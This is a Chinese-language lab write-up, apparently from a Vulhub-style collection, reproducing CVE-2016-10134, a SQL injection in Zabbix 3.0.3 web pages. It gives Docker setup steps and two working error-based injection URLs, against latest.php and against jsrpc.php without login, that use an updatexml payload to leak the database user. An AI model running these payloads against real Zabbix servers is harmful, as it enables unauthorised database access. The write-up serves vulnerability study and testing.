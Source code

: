 # Zabbix latest.php SQL注入漏洞 CVE-2016-10134

## 漏洞描述

zabbix是一款服务器监控软件，其由server、agent、web等模块组成，其中web模块由PHP编写，用来显示数据库中的结果。

## 环境搭建

Vulhub执行如下命令启动zabbix 3.0.3：

```
docker-compose up -d
```

执行命令后，将启动数据库（mysql）、zabbix server、zabbix agent、zabbix web。如果内存稍小，可能会存在某个容器挂掉的情况，我们可以通过`docker-compose ps`查看容器状态，并通过`docker-compose start`来重新启动容器。

## 漏洞复现

访问`http://your-ip:8080/index.php`，用账号`guest`（密码为空）登录游客账户。

登录后，查看Cookie中的`zbx_sessionid`，复制后16位字符：

```
zbx_sessionid=cb4f5e3307ffbca669d1a14be14dc1e0
```

![image-20220302233506525](images/202203022335590.png)

将这16个字符作为sid的值，访问`http://your-ip:8080/latest.php?output=ajax&sid=055e1ffa36164a58&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,user()),0)`，可见成功注入：

![image-20220302233802973](images/202203022338075.png)

这个漏洞也可以通过jsrpc.php触发，且无需登录：`http://your-ip:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,user()),0)`：

![image-20220302233854678](images/202203022338774.png)

